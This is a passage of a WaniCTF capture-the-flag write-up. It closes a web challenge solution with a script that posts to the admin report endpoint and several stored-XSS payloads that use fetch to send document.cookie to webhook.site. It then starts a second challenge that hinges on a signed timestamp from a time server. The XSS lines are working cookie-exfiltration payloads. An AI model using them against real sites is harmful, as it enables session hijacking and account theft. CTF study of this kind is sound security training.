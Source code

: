 ```py
send_to_admin = requests.post("https://web-noscript-lz56g6.wanictf.org/report", data=form_data3)

print("Admin response: ", send_to_admin.text)
```

Or a more simple solution:

```html
username: <script>fetch('webhook'+document.cookie)</script>
profile: <meta http-equiv="refresh" content="0; url=/username/id">
```

Another solution:

```html
<script>fetch("https://webhook.site",{method:"POST",body:"flag ="+document.cookie})</script>
<object data="/username/e2b49e44-9419-4881-8144-72d17223e3f2" type="text/html"></object>
```

## [Web] One Day One Letter


Everything comes to those who wait

https://web-one-day-one-letter-lz56g6.wanictf.org/

Basically the focus of this challenge is giving one letter of the flag each day:

![1719141429176](image/writeup/1719141429176.png)

As we may know, this is not possible to solve the challenge that way, so we need to find a way to speed up the days.

There are two servers:
- The one that receives the requests from the user
- A time server that generates the time and is the source of truth for that.

Basically when we request the main page of the main server a POST request is made with the following body:
```js
{"timestamp":"1719142196","signature":"c77994922fd042ad2ea96d927512f4aa70c70998e3e1ca3044e467a6dfb03ea5883b9657d0f3727d431765be6bd8b1e036cf11bb1f53eb66d5cf566bcac261a7","timeserver":"web-one-day-one-letter-time-lz56g6.wanictf.org"}
```
